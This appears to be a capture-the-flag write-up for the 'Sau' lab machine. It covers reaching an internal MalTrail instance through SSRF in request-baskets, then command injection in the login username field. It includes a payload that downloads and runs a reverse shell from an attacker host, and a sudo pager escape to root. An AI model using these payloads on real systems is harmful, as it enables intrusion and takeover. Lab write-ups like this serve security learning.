

# Sau

## Information about the box

- Difficulty: easy
- Points: 20

## Discovery

The first thing I have done is scan the machine. I used the following command:

```
$ nmap -vv -T5 -A --top-ports=2000 -Pn -oA nmap/nmap $BOX_IP
```

- `-vv` - Very verbose
- `-T5` - Very fast scan
- `-A`  - Same as `-sV -sC -O`, which means:
    - `-sV` - Scan version of services
    - `-sC` - Scan for vulnerabilities and run other auxiliary scripts
    - `-O`  - Scan OS type and version
- `--top-ports` - Scan top ports. Set to 1000 by default.
- `-Pn` - Do not ping and assume host is alive.
- `-oA` - Output in `text`, `xml` and `greppable` formats.
- `$BOX_IP` - Variable I set with the box IP address

The scan gave me the following information:

- Port 22 open - `OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)`
- Port 55555 open - `An unknown HTTP service`

After recieving the results, I opened the browser and accessed `http://BOX_IP:55555`.


The project is found [here](https://github.com/darklynx/request-baskets). 

## Exploitation

After playing around with the project, it made me think that, maybe, there is some kind of SSRF, so the first thing I've done is:

1. Create a new basket.
2. Configure the location of the proxy forward URL to `http://127.0.0.1`.
3. Set `Proxy Response` in order to see the response.
4. Set `Expand Forward Path` in order to navigate the forwarded page.

After visiting the webhook, I discovered that I was greeted with a new service called `MalTrail`



After a quick search, I've discovered that the `MalTrail` software was once vulnerable to an Unauthenticated OS Command Injection vulnerability, which was exploited in version `0.53` - The same version hosted on the box.

The exploit is caused by the way an authentication attempt is logged. The software logs an invalid or valid attempt to login by running a binary called `logger` and appending the data from the software. The way the username is appended allows the attacker to end the command using a `;` and appending additional commands. Here's an example:

If we give MalTrail the following username: `test`, the command ran on the machine will be the following:

``` bash
$ logger -p auth.info -t maltrail[XXXX] Failed password for test from x.x.x.x port xxxxx
```

But if we give MalTrail the following username: `;ping x.x.x.x; #`, the following command will be ran:

``` bash
$ logger -p auth.info -t maltrail[XXXX] Failed password for ;ping x.x.x.x; #from x.x.x.x port xxxxx
```

This will execute the `logger` command as well as the ``ping` command.

The vulnerability is highlighted [here.](https://github.com/stamparm/maltrail/blob/master/core/httpd.py#L399)

## Gaining access

I forged the following POST payload:

```
username=;`wget -O /tmp/rv.py http://$ATTACKER_IP:8000/reverse_shell.py`;`python3 /tmp/rv.py`.
```

Before sending it, I have setup:

- `nc -lvp 9999` - My TCP listener from which I will input my commands.
- `python3 -m http.server` - My HTTP server with a file `reverse_shell.py`, containing a reverse shell pointing to my IP address on port 9999.

I sent the request and popped a shell.


## Post exploitation

The next thing I've done is create a new directory in `/tmp`. I downloaded linpeas.sh to the box and ran it using the following command: `./linpeas.sh &>/tmp/folder/output.txt &`. 
- `&>/tmp/folder/output.txt` - Redirect stdout, stderr to `output.txt`.
- `&` - Run in background.

The next thing I done is check the user's home directory, where I found the first flag.

I have then checked `sudo -l` and found, that the user can run `sudo systemctl status trail.service` without any password, so I tried the command and my shell stopped working.

I gained back access and created a new SSH key which I copied to my attacker machine in order to gain a cleaner shell.

## Root

After some time, I figured out that there was some problem with the `pager` binary which pointed to `less`. In order to solve this problem, I copied the `more` binary to my `/tmp/folder`, set `$PATH` to `$(pwd):$PATH` and run `systemctl status trail.service` again, an to my surprise it worked!.

I then typed in `!sh` to invoke a shell from `more` and gained `root`! The `root` flag was found in the `root`'s home directory.